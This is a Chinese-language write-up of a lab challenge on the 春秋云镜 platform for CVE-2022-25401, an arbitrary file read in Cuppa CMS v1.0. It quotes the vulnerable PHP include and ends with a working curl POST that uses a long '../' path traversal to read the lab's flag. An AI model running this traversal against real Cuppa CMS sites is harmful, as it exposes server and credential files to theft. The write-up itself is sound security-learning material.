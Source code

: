 ```yaml
---
title: 春秋云镜 CVE-2022-25401
tags: [penetration]
date: 2024-10-18 00:00:01
categories: [penetration]
excerpt: 文件读取漏洞
---
```


## CVE-2022-25401

https://yunjing.ichunqiu.com/cve/detail/744

```
Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php文件存在任意文件读取漏洞
```

打开靶机，访问这个right.php，直接404，我愁了半天也不像是要先登录才能访问的样子，因为没找到任何提示的东西，搜这个Cuppa CMS v1.0也搜不出来什么默认账号之类的。

最后实际的原因就是题目给的路径是错的😓或者说他自己搭的这个环境并没有和原本的poc匹配

> 另外，去nvd看了一眼，上边自带的一个github上的poc被作者删了😶‍🌫️

### 扫描

虽然这个春秋云镜总是给我的请求封掉，但还是扫出来了一些东西

![](/img/pene/12.png)

既然是从administrator开始，每一级的目录都是404，第二级这个templates还扫到了，那就试一试不带这个administrator，这下扫到了

然后就是这个right.php，看一下burp抓到的响应，然后啥也没看出来😓

好在它是开源的，可以去github看一下它php咋写的。https://github.com/CuppaCMS/CuppaCMS/

（这个github并没有写版本，还好right的history只有三个版本😶‍🌫️）

php代码只有这两部分

```php
<?php
    @session_start();
    include_once(realpath(__DIR__ . '/../../../..')."/classes/Cuppa.php");
    $cuppa = Cuppa::getInstance();
    if(!@$path) $path = $cuppa->utils->getUrlVars(@$_POST["path"]);
    $language = $cuppa->language->load();
?>
```

```php
<?php 
    include realpath(__DIR__ . '/../../../..')."/".$_POST["url"];
?>
```

题目说是任意文件读取，那这肯定是下边这个的漏洞了，看起来要搞一个url的post参数

那我当前的路径是在哪里呢？~~（没好好学过php）~~

我是观察上面的那个php代码，同样一个realpath，那这个post url的起始位置和classes/Cuppa.php的起始位置应该是一样的。所谓以我尝试include一下，注意这里不要include 那些php，会被执行掉看不到，所以我选择classes/index.html

```html
<div class="w_right">
    <!DOCTYPE html><title></title>
</div>    
```

在原本right.php结尾这个w_right标签里有东西了

好，知道了当前路径，那我的flag在哪里呢？~~上面都是在干什么😓~~

只能一路..下去试了，在试了12个..之后终于输出了flag

我也不知道部署这道题的人为什么这么脑抽把CuppaCMS这个文件夹放这么深的地方😓

```html
<div class="w_right">
    flag{e12071ae-35d2-48ca-aa49-92f1653bfd67}</div>
```

```zsh
curl -X POST "http://www.a.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```

